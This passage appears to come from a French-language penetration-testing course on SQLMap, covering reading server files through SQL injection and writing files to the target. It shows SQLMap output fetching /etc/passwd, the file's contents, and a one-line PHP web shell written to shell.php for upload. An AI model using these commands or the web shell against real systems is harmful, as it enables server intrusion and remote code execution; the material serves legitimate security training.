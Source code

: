 ```
[17:40:07] [WARNING] unable to retrieve the content of the file '/etc/passwd', going to fall-back to simpler UNION technique
[17:40:07] [INFO] fetching file: '/etc/passwd'
do you want confirmation that the remote file '/etc/passwd' has been successfully downloaded from the back-end DBMS file system? [Y/n] y

[17:40:14] [INFO] the local file '~/.sqlmap/output/www.example.com/files/_etc_passwd' and the remote file '/etc/passwd' have the same size (982 B)
files saved to [1]:
[*] ~/.sqlmap/output/www.example.com/files/_etc_passwd (same file)

[*] ending @ 17:40:14 /2020-11-19/

```

Comme nous pouvons le voir, SQLMap a indiqué `files saved`un fichier local. Nous pouvons `cat`le fichier local pour voir son contenu :

```
dsgsec@htb[/htb]$ cat ~/.sqlmap/output/www.example.com/files/_etc_passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...SNIP...

```

Nous avons récupéré avec succès le fichier distant.

* * * * *

Écriture de fichiers locaux
---------------------------

Lorsqu'il s'agit d'écrire des fichiers sur le serveur d'hébergement, cela devient beaucoup plus restreint dans les DMBS modernes, car nous pouvons l'utiliser pour écrire un Web Shell sur le serveur distant, et ainsi exécuter du code et prendre le contrôle du serveur.

C'est pourquoi les SGBD modernes désactivent l'écriture de fichiers par défaut et nécessitent certains privilèges pour que les administrateurs de base de données puissent écrire des fichiers. Par exemple, dans MySql, la `--secure-file-priv`configuration doit être désactivée manuellement pour permettre l'écriture de données dans des fichiers locaux à l'aide de la `INTO OUTFILE`requête SQL, en plus de tout accès local nécessaire sur le serveur hôte, comme le privilège d'écrire dans le répertoire dont nous avons besoin.

Néanmoins, de nombreuses applications Web nécessitent que les SGBD puissent écrire des données dans des fichiers. Il vaut donc la peine de tester si nous pouvons écrire des fichiers sur le serveur distant. Pour ce faire avec SQLMap, nous pouvons utiliser les options `--file-write`et `--file-dest`. Tout d'abord, préparons un shell Web PHP de base et écrivons-le dans un `shell.php`fichier :

```
dsgsec@htb[/htb]$ echo '<?php system($_GET["cmd"]); ?>' > shell.php

```
